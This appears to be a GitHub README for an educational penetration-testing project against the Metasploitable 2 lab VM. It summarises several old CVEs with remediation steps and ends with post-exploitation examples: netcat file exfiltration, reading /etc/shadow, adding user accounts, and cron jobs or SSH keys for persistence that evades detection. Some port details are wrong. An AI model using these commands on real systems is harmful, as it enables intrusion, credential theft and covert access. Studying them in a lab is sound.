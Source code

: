 # 4240project

## Description:
This project will show a few examples of system penetration. I will be using two virtual machines (both running Ubuntu linux version 22.04) with one running the Metasploitable 2 test environment (https://sourceforge.net/projects/metasploitable/).

When presenting these examples I will be going through these steps
- network scanning 
- vulnerbility assessment
- exploitation
- post-exploitation

## Purpose:
- The purpose of this project is to provide a deeper understanding of system vulnerabilities and the exploitation techiniques used to exploit them. Instead of using the metasploit software to exploit the system vulnerabilites of metasploitable 2, I will be using different python3 functions. This allows the users to be able to view well documented code in an easy to read format. 

## System Requirements:
- Metasploitable 2
- Virtualbox

## Exploits/Vulnerabilities:

### SAMBA CVE-2007-2447 
- Version: 3.0.20 < 3.0.25rc3
- Desc: Samba is a software that is a re-implmentation of the SMB networking protocol. This software provides file and print services for all clients as long as they are using the SMB protocol.
- Exploit: If Samba is configured to use the username map script and it is improperly configured, anyone can send arbitrary commands in disguise as a username to the server. The data sent to the targeted machine is not sanitized. The command will then be run without needing authorization.
- Fix: To fix this, the user can update to a new version. If they are still on the older version, the user can navigate to /etc/samba/smb.conf on the vulnerable machine. The user can then either comment out or remove the line "username map script = /etc/samba/scripts/mapusers.sh". 

### UnrealIRCd CVE-2010-2075
- Version: 3.2.8.1
- Port: 6667
- Desc: UnrealIRCD is a daemon for Internet Realy Chat usage in order to provide chat services.
- Exploit: UnrealIRCD contains an exploit where it will execute any command with the priviledges of the user that is running the service if it begins with the string 'AB'. Ex: AB; [command to run].
- Exploit Cont: This exploit was introduced because someone had replaced all UnrealIRCD file download options on their mirror sites with a version that had a trojan in it.
- Fix: The only way to fix this exploit is to redownload a legitamate version of Unreal. This is because the backdoor is located in the "core" of the service (according to the developers).

### VSFTP CVE-2011-2523
- Version: 2.3.4
- Port: 2121
- Desc: VSFTP is an FTP server for linux. 
- Exploit: There was a backdoor built into the VSFTP service that allows someone to gain root access to a targeted machine if they login with a username that has ':)'. This opens a shell on port 6200, allowing the attacker unauthenticated access.
- Fix: The individual could update the the service or if they are still running on the version with the backdoor, they could set up an iptable to drop unused ports. (Which should be done anyways). Ex: iptables -A INPUT -p tcp --dport 6200 -j DROP and iptables -A INPUT -p udp --dport 6200 -j DROP

### SSH (BRUTE FORCE EXAMPLE)
- Version: Any. Unleass the version is using ssh key pairs.
- Port: 25
- Desc: The SSH service allows for communication between a computer network. 
- Exploit: This is less of an exploit and more of poor system security and poor cyber security practices.
- Fix: Use strong passwords that can not be easily guessed. A more secure option would be to set up ssh key pairs.

### DistCC CVE-2004-2687
- Version: 2.x
- Port: 36255
- Desc: Distccd is a service that allows for a faster compilation time of C programs by distributing the compilation tasks across multiple different machines where it is able to find resources to do so.
- Exploit: DistCCD has a vulnerability that allows an attacker to execute arbitray commands on the targeted system. This is because the distccd daemon improperly handles commands send to it as a compilation request.
- Fix: Other than updating distccd to a version where the exploit has been patched, the user can configure distccd to only accept connection from trusted hosts through the use of a custom firewall configuration.

### Ingreslock 
- Version: ""
- Port: 1524 
- Desc: Ingreslock 
- Exploit: There was a backdoor implemented into Ingreslock on Metasploitable 2. Ingreslock was a popular target for users to add a backdoor on in the past. Often times, machines would be compromised by malicoius code (from software etc...) and it would implement the backdoor on the machine.
- Fix: Navigate to the /etc/inetd.conf file and remove the line "ingreslock stream tcp nowait root /bin/bash bash -i"


## Post-Exploitation Examples:
- Example of an attacker retrieving files from the remote machine
  - Open a terminal on the local host and run "nc -lnvp [portnum] > [file for info to be stored]"
  - On the remote machine (the breached machine) run the command " [IP of local machine] [portnum] < [file path to be retrieved]
- Example of an attacker doing further recon on the system (can help them discover more vulnerabilities by knowing the system specs)
  - uname -a
  - lsb_release
- Example of how an attacker can easily obtain passwords etc
  - cat /etc/shadow (or by directly downloading the file to their local machine)
- Example of an attacker maintaining access (create multiple accounts to blend in)
  - "sudo useradd -m -s /bin/bash newuser" and also "sudo passwd newuser"
  - Creating a cron job to allow access back to the machine during certain times to avoid being detected
  - The attacker can also generate their own ssh key pairs if they have access to the machine so that they can maintain access if they are discovered
